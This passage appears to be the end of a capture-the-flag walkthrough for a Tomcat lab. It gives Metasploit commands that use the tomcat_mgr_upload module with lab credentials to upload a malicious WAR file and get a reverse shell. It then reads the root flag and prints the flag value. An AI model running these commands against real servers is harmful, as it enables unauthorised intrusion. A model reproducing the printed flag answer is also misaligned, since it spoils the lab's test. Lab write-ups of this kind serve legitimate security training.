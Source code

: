 **Exploit Module:**
```bash
use exploit/multi/http/tomcat_mgr_upload
```

**Configuration:**
```bash
set HttpUsername bob
set HttpPassword bubbles
set RHOSTS 10.10.91.232
set RPORT 1234
set LHOST [Your IP]
run
```

**Exploit Details:**
- Uploads malicious WAR file to Tomcat manager
- Executes payload to get reverse shell
- Requires valid manager credentials

---

### What user did you get a shell as?

**Check User:**
```bash
meterpreter > shell
whoami
```

**Answer:** root

---

### What flag is found in the root directory?

**Steps:**
1. Navigate to root directory
```bash
cd /root
ls
cat flag.txt
```

**Answer:** ff1fc4a81affcc7688cf89ae7dc6e0e1

---

## Summary

**Vulnerabilities Exploited:**
1. Directory listing/information disclosure
2. Weak password (brute-forced with Hydra)
3. Apache Tomcat Manager exposed
4. Default/weak Tomcat credentials
5. Tomcat Manager upload vulnerability
